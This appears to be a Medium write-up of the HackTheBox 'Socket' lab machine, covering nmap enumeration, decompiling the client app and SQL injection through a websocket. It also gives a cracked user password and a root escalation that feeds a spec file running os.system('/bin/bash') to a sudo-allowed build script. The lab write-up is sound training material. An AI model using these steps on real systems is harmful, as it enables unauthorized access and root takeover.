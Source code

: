 Socket is newly released Open Beta Season Medium, Linux box from hackthebox.

Let’s Start

**Nmap Output**

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 13:35 EDT  
Nmap scan report for qreader.htb (10.10.11.206)  
Host is up (0.079s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)  
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)  
80/tcp   open  http    Apache httpd 2.4.52  
|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
| http-methods:   
|_  Supported Methods: OPTIONS GET HEAD  
| http-server-header:   
|   Apache/2.4.52 (Ubuntu)  
|_  Werkzeug/2.1.2 Python/3.10.6  
5789/tcp open  unknown  
| fingerprint-strings:   
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest:   
|     HTTP/1.1 400 Bad Request  
|     Date: Wed, 29 Mar 2023 17:36:42 GMT  
|     Server: Python/3.10 websockets/10.4  
|     Content-Length: 77  
|     Content-Type: text/plain  
|     Connection: close  
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.  
|   Help, SSLSessionReq:   
|     HTTP/1.1 400 Bad Request  
|     Date: Wed, 29 Mar 2023 17:36:58 GMT  
|     Server: Python/3.10 websockets/10.4  
|     Content-Length: 77  
|     Content-Type: text/plain  
|     Connection: close  
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.  
[REDACTED]

add “qreader.htb” in hosts file

Browsing the site it shows something like this

![](https://miro.medium.com/v2/resize:fit:1050/1*hgy-gcdjco6ZFjPIdjndgw.png)

![](https://miro.medium.com/v2/resize:fit:1050/1*7hmNtX4DBLZCxmCEBLAeiA.png)

Download the app , the site is running with flask . so let’s assume the app is also built with python

i’m using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to decompile the app

[

## GitHub — extremecoders-re/pyinstxtractor: PyInstaller Extractor

### PyInstaller Extractor is a Python script to extract the contents of a PyInstaller generated executable file. The header…

github.com



](https://github.com/extremecoders-re/pyinstxtractor)

wget https://raw.githubusercontent.com/extremecoders-re/pyinstxtractor/master/pyinstxtractor.py  
  
python pyinstxtractor.py app/qreader.exe

![](https://miro.medium.com/v2/resize:fit:1050/1*NpgZ7vAeFnDvOCQpTTH7DA.png)

pyinstxtracto output

cd to output folder & Extract the pyc file

pip3 install uncompyle6  
  
uncompyle6 qreader.pyc > qreader.py

analyzing the code there is a vulnerability in this part of code

![](https://miro.medium.com/v2/resize:fit:1050/1*xk15z9TngFKvLg9PU-Oypg.png)

Again let’s try out the vulnerability scan of websocket in port 5789 with [STEWS](https://github.com/PalindromeLabs/STEWS)

[

## GitHub — PalindromeLabs/STEWS: A Security Tool for Enumerating WebSockets

### STEWS is a tool suite for security testing of WebSockets This research was first presented at OWASP Global AppSec US…

github.com



](https://github.com/PalindromeLabs/STEWS)

python3 STEWS-vuln-detect.py -1 -n -u qreader.htb:5789

![](https://miro.medium.com/v2/resize:fit:1050/1*zSxfoD9HygCSLSh6-tivwA.png)

Let’s make a script to exploit the sql injection found from from the above source code

![](https://miro.medium.com/v2/resize:fit:1050/1*LKl16AxYTldoBv2Eo8moNg.png)

![](https://miro.medium.com/v2/resize:fit:1050/1*_v-3jqJ1oUF7xI1aRXgO_w.png)

some usernames are found, looks great. 😍

here let’s try to get the password

![](https://miro.medium.com/v2/resize:fit:1050/1*D6CDK3rDUIzeEHjuQBM8fw.png)

![](https://miro.medium.com/v2/resize:fit:1050/1*PnPXS2Hv9vg-2gB6U0JCsw.png)

here is the password which can be easily cracked with crackstation

![](https://miro.medium.com/v2/resize:fit:1050/1*PgAj2JKEZ9aDiRjdF1_sJA.png)

> password: “_denjanjade122566”_

ssh it & get the user.txt

> i’ve to try several times as username is tricky “_tkeller”_

![](https://miro.medium.com/v2/resize:fit:795/1*jqqZwUQCuPRmseIXMDJfzg.png)

uh! initial access done :D

## Privilege Escalation

running “sudo -l” gives this

![](https://miro.medium.com/v2/resize:fit:1050/1*P_0jPszisATldAKnuHpWkg.png)

reviewing the “build-installer.sh” file it seems os command can be run as root.

![](https://miro.medium.com/v2/resize:fit:1050/1*H54EENfAx3py27IPziwKDg.png)

let’s get to the root…

echo 'import os;os.system("/bin/bash")' > b17.spec  
  
sudo /usr/local/sbin/build-installer.sh build b17.spec

![](https://miro.medium.com/v2/resize:fit:1050/1*mczXWMPAx5wI-LyqGP0b0w.png)

& it’s done !
